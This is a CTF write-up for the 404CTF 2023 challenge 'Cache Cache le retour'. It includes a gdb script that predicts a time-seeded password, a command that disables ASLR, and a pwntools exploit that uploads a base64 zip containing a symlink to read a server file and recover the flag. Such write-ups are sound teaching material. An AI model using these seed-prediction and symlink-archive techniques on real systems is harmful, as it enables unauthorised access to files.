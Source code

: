 ```yaml
---
title: CTFs | 404CTF2023 | Cache Cache Le Retour
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, Cache Cache Le Retour]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/cachecacheleretour
---
```


# Cache Cache le retour

![cache-cache-chall](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/61ac3663-27cb-4b5f-a960-f0aac9df459e)

Using the commands `file cache_cache_le_retour` and `checksec cache_cache_le_retour` to get some more infomation,

```bash
file cache_cache_le_retour 
cache_cache_le_retour: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d574568517100e5aa82bc0cc539ef23a08e43dd3, stripped

checksec cache_cache_le_retour
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Use Ghidra to read the code. Since the binary file has been stripped, it may be challenging to comprehend the code. As a solution, I decided to rename some functions to enhance the code's readability. The modified function names are displayed in the image below.

![func_name_chache](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/43956ad6-eb89-45fa-86f0-7ad970e0391e)

**The function main**

![main_cache_cache](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/aa32515f-57a5-4bbe-9404-c20ac8269b57)

From the code, it is evident that the password is randomly generated each time the ELF file is executed. The rand() function is utilized to generate a pseudo-random number, with the seed being based on the current timestamps.

Understanding this, we can recreate the password generation process by using the same binary file and providing a seed based on future timestamps, such as the next 30 seconds or more. By generating the password using this approach, we can then attempt to "brute force" the server's password by trying the generated passwords every second until we succeed.

The code below will have us to get the generated password by using gdb script:

```shell
set disassembly-flavor intel

break *0x5555554016a5 # just before the srand() function
commands
    silent
    print($rax)
    set $rax += 33 # add 33s into the current timestamps
    print($rax)
    continue
end

break *0x5555554016ff # just after the loop which generated the password
commands
    silent
    set $pass = (char *) $rbp -0x40 # get the password in the memory
    print($pass)
    quit
end

run
```

Before running this script, we must temporarily disable ASLR (Address space layout randomization) to get the same address each time we launch the ELF file. By using this command \
`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

The breakpoints are put at the instructions that are in the red box in the image below

![br_point](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/6c1fc56e-7b86-407b-82ab-55bd2acb9b56)

Running the script:

```shell
gdb-peda$ source auto_gdb.gdb 
Breakpoint 1 at 0x5555554016a5
Breakpoint 2 at 0x5555554016ff
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
$1 = 0x64818bc0
$2 = 0x64818be1
$3 = 0x7fffffffdcb0 "[FG/9y>frk}>G18bcac["
```

==> password = `[FG/9y>frk}>G18bcac[`

Code for "brute forcing" the access:

```python

from pwn import *
import time

while True:


    p = process("./cache_cache_le_retour")
    # p = remote("challenges.404ctf.fr",31725)


    password = b'vE79ekVZPFpz7JTyW8EZ'

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()
    print(sms.decode())

p.interactive()
```

After successful with password, the program will call `give_a_gift` function (name given by me) as shown below

![give_a_gift](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/deab306f-6332-421b-bfc7-6965bb4278af)

This function takes a base64-encoded string as input and saves it as a file named "mystere.zip". Subsequently, it extracts the contents of this file to access the "surprise.txt" file. This indicates that we may be able to exploit the functionality by using symlinks within the "surprise.txt" file, allowing us to read the contents of arbitrary files after uploading them to the server.

We can also see the PS inside the description of the chall. There was something in the sale_au_tresor, so I decided to create a symlink from mystere.txt to the salle_au_tresor.
By using the commands below we will get the base64 file and ready for exploiting
![PS_cache_cahe](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/67161fe4-719e-4340-a471-d50909b44951)

```shell
$ ln -s salle_au_tresor surprise.txt
$ zip --symlinks mystere.zip surprise.txt
$ cat mystere.zip | base64 

UEsDBAoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAMBumxkAbpsZHV4CwABBOgDAAAE6AMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAAwG6bGR1eAsAAQToAwAABOgDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA
```

## The complete code

```python
from pwn import *
import time

while True:


    # p = process("./cache_cache_le_retour")
    p = remote("challenges.404ctf.fr",31725)


    password = b'vE79ekVZPFpz7JTyW8EZ'

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()

    if b'Je me vois au regret de refuser' in sms:
        p.close()
        time.sleep(0.6)
        continue  
    gif = b"UEsDBAoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAMBumxkAbpsZHV4CwABBOgDAAAE6AMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAAwG6bGR1eAsAAQToAwAABOgDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA"
    p.sendline(gif)
    result = p.recvall()

    with open("remote_flag.txt", "wb") as binary_file:

        binary_file.write(result)
        break
print(result)
print('terminate')
p.interactive()

```

**Result**
```shell

[*] Closed connection to challenges.404ctf.fr port 31725
[+] Opening connection to challenges.404ctf.fr on port 31725: Done
[+] Receiving all data: Done (60B)
[*] Closed connection to challenges.404ctf.fr port 31725
b'404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}\n\n'
```

**Flag:**  `404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}`